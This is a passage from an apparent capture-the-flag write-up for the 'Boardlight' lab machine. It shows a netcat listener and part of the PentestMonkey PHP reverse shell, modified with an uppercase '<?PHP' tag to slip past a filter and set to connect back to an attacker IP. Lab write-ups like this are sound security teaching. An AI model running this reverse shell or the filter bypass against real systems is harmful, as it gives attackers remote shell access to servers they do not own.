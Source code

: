 This is proof that is vulnerable to ```PHP injection```, and we have remote code execution.
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/boardlight/Boardlight3.png?raw=true)

# Reverse shell and Foothold

We start a ```netcat``` listener on our attack machine
```bash
nc -nvlp 4444
```
We can use revshells.com to create a payload, I have chosen the PHP PentestMonkey version, and modified the payload to have ```PHP``` instead of ```php```, in order to bypass the the check on the ```“<?php”``` tag like explained in the poc.

```bash
<?PHP
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);
```
